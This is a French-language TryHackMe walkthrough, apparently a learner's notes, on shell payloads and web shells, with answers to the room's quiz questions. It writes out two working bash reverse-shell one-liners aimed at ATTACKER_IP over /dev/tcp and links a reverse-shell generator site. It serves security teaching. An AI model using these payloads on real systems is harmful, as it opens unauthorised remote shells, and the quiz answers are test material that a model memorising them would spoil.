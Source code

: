 **Réponse :** `ncat`

### Task 6 - Shell Payloads

Un Shell Payload peut être une commande ou un script qui expose le shell à une **connexion entrante** dans le cas d'un shell de liaison ou à une connexion d'envoi dans le cas d'un reverse shell.

#### Bash

Un reverse shell normal en bash

```bash
target@tryhackme:~$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
```

Ce reverse shell lance un shell bash interactif qui redirige les **entrées et les sorties** via une connexion **TCP** vers l'adresse IP de l'attaquant (`ATTACKER_IP`) sur le port 443. L'opérateur `>&` combine à la fois la sortie standard et l'erreur standard.

Ensuite nous avons le reverse shell en "lecture de ligne" désolé j'arrive pas à le traduire, (read line reverse shell)

```bash
target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```

Ce reverse shell crée un nouveau descripteur de fichier (**5** dans ce cas) et se connecte à un **socket TCP**. Il lira et exécutera les commandes du socket, renvoyant la sortie via le même socket.

Mais bon il y a juste ÉNORMÉMENT de reverse shells possibles donc encore une fois je vous redirige vers le meilleur site pour faire ceci [revshells.com](https://www.revshells.com/)

---

**Which Python module is commonly used for managing shell commands and establishing reverse shell connections in security assessments?**

**Réponse :** `subprocess`

**What shell payload method in a common scripting language uses the exec, shell_exec, system, passthru, and popen functions to execute commands remotely through a TCP connection?**

**Réponse :** `PHP`

**Which scripting language can use a reverse shell by exporting environment variables and creating a socket connection?**

**Réponse :** `python`

### Task 7 - Web Shell

Un **shell Web** est un script écrit dans un langage pris en charge par un serveur Web compromis qui exécute des commandes via le serveur Web **lui-même**. Un shell Web est généralement un fichier contenant le code qui exécute les commandes et gère les fichiers. Il peut être caché dans une application ou un service Web compromis, ce qui le rend difficile à détecter et très populaire parmi les attaquants.

Les shells Web peuvent être écrits dans plusieurs langages pris en charge par les serveurs Web, comme `PHP`, `ASP`, `JSP` et même de simples scripts `CGI`.
